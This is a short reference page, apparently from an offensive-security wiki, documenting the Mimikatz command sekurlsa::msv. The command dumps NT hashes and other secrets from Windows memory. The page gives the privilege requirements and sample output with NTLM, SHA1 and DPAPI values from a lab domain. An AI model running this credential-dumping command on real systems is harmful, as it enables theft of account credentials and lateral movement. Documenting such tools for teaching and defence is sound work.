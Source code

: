 # msv

It dumps and lists the NT hash (and other secrets) by targeting the [MSV1\_0 Authentication Package](https://docs.microsoft.com/en-us/windows/win32/secauthn/msv1-0-authentication-package).

{% hint style="info" %}
LM and NT hashes are used to authenticate accounts using the NTLM protocol. These hashes are often called NTLM hash and many documentations, resources, blogpost and tools mix terms. In this case, "ntlm" refers to the NT hash.

([more information](https://www.thehacker.recipes/ad/movement/ntlm))
{% endhint %}

{% hint style="warning" %}
This command requires elevated privileges (by previously running [`privilege::debug`](../privilege/debug.md) or by executing Mimikatz as the `NT-AUTHORITY\SYSTEM` account).
{% endhint %}

```
mimikatz # sekurlsa::msv

Authentication Id : 0 ; 712960 (00000000:000ae100)
Session           : Service from 0
User Name         : MediaAdmin$
Domain            : hacklab
Logon Server      : DC
Logon Time        : 9/26/2021 4:57:38 AM
SID               : S-1-5-21-2725560159-1428537199-2260736313-1427
        msv :
         [00000003] Primary
         * Username : MediaAdmin$
         * Domain   : hacklab
         * NTLM     : 35950fdc8d3d99b4136510414009662d
         * SHA1     : 185535108abf1fc0287dedbaff210b77989251c8
         * DPAPI    : 73006d59c6adcf27da6e097787a6d1f9
```
